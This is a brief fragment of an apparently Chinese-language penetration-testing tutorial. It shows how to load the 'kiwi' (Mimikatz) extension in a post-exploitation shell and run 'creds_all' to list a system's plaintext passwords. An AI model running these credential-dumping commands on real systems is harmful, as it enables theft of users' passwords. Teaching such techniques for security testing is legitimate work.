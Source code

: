 ![Alt text](image-27.png)   
使用 `kiwi`。   
```shell
 load kiwi
```   
![Alt text](image-28.png)   
列举系统明文密码。
```shell
 creds_all
```